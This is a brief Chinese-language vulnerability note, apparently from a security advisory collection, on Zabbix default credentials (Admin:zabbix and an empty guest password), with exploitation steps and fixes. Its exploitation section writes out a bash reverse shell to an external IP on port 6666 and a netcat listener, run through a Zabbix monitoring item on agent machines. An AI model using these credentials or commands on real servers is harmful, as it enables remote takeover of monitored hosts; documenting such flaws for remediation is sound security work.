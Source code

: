 # zabbix
## zabbix弱口令漏洞
### 漏洞说明
运维人员在初次安装zabbix时候，zabbix默认的口令为Admin:zabbix，以及存在guest密码为空，没有进行更改和禁止guest用户，导致zabbix存在致命漏洞，容易遭受攻击。
### 影响范围
/
### 验证方法
pocsuite: `poc_zabbix_weakpass`
### 利用方法
```bash
Zabbix server可以远程在agent的机器上执行任意命令
建立监控项
命令调用：bash -i >& /dev/tcp/45.xx.xxx.x1/6666 0>&1
命令调用：nc -lvp 6666
```
### 修复方式
1. zabbix放置在内网，不要暴露外网
2. 修改默认的口令密码
3. 禁止guest用户